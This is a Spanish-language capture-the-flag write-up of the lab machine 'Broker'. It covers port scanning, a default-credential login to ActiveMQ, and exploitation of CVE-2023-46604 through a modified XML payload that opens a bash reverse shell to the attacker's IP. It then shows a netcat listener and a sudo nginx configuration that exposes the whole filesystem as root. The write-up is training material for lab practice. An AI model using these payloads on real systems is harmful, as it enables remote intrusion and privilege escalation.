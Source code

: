 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><img src="../../../.gitbook/assets/SignIn.png" alt=""><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><img src="../../../.gitbook/assets/ActiveMQ.png" alt=""><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.

{% embed url="https://activemq.apache.org/" %}

**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604?ref=blog.ecoit.com.br" %}

{% embed url="https://mvnrepository.com/artifact/org.apache.activemq/apache-activemq/5.15.15" %}

**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**

{% embed url="https://github.com/rootsecdev/CVE-2023-46604" %}

**Se hace un git clone.**

<figure><img src="../../../.gitbook/assets/Arch.png" alt=""><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python -m http.server 
nc -lvvp 9001
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```

<figure><img src="../../../.gitbook/assets/terminal.png" alt=""><figcaption></figcaption></figure>

**Navegamode por los directorios hasta encontrar user.txt que tiene la primer bandera.**

<figure><img src="../../../.gitbook/assets/Primer.png" alt=""><figcaption></figcaption></figure>

## **Escalada de privilegios.**

**Hacemos un `sudo -l`**&#x20;

<figure><img src="../../../.gitbook/assets/Ruta.png" alt=""><figcaption></figcaption></figure>

**Eso demuestra que se puede ejecutar con sudo nginx.**

**Ahora navegamos a la carpeta /home ,y copiamos el archivo /etc/nginx/nginx.conf a /tmp y debemos editarlo.**

```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
worker_connections 768;
}
http {
server {
listen 1337;
root /;
autoindex on;
dav_methods PUT;
}
}
```

**En mi caso yo cree el archivo en mi computadora.**

```bash
nvim pw.conf
```

**Luego abri un puerto en la mis carpeta.**

```python
python -m http.server 2000
Serving HTTP on 0.0.0.0 port 2000 (http://0.0.0.0:2000/) ...
10.10.11.243 - - [29/Nov/2023 16:54:10] "GET /pw.conf HTTP/1.1" 200 -
```

**Realice un wget en la carpeta /tmp de la victima.**

```bash
activemq@broker:/tmp$ wget http://10.10.16.20:2000/pw.conf
wget http://10.10.16.20:2000/pw.conf
--2023-11-29 16:56:24--  http://10.10.16.20:2000/pw.conf
Connecting to 10.10.16.20:2000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 158 [text/plain]
Saving to: ‘pw.conf’

     0K                                                       100% 13.6M=0s

2023-11-29 16:56:28 (13.6 MB/s) - ‘pw.conf’ saved [158/158]
```

**Active nginx pasando en pw.conf.**

```bash
activemq@broker:/tmp$ sudo nginx -c /tmp/pw.conf
sudo nginx -c /tmp/pw.conf
```

**Luego realice el curl para leer el contenido root.txt ultima bandera.**

<figure><img src="../../../.gitbook/assets/Ultima.png" alt=""><figcaption></figcaption></figure>
